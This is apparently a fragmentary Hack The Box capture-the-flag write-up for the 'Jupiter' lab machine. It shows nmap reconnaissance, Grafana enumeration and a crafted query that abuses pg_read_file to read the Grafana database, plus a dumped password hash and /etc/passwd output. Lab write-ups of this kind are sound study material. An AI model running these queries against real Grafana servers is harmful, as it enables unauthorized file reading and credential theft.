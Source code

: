 # Introduction
<img width="684" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/30184ea8-6e74-4147-8627-a560a4492ada">

# Nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx jupiter.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- jupiter.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# user.txt

## HTTP (port 80)

we found a "Source" folder
we found a "sass" folder

sous domaine : kiosk.jupiter.htb
Grafana v9.5.2

http://kiosk.jupiter.htb/metrics

{db_name="grafana"}

http://kiosk.jupiter.htb/api/dashboards/uid/jMgFGfA4z
we found there is a user named admin

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select pg_read_file('/var/lib/grafana/grafana.db' , 0 , 1000000);","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":386}],"range":{"from":"2023-10-21T04:58:39.945Z","to":"2023-10-21T10:58:39.945Z","raw":{"from":"now-6h","to":"now"}},"from":"1697864319945","to":"1697885919945"}


SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=

/usr/share/grafana/README.md



root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
juno:x:1000:1000:juno:/home/juno:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
grafana:x:115:121::/usr/share/grafana:/bin/false
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
